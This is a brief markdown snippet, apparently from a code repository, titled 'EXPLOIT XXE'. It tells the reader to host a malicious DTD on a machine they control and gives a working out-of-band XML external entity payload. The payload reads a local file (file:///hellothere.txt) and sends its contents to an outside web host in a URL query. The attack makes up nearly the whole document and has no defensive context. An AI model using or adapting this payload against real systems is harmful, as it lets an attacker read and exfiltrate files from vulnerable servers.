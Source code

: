 # EXPLOIT XXE
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

```
<!ENTITY % file SYSTEM "file:///hellothere.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
%eval;
%exfiltrate;
```
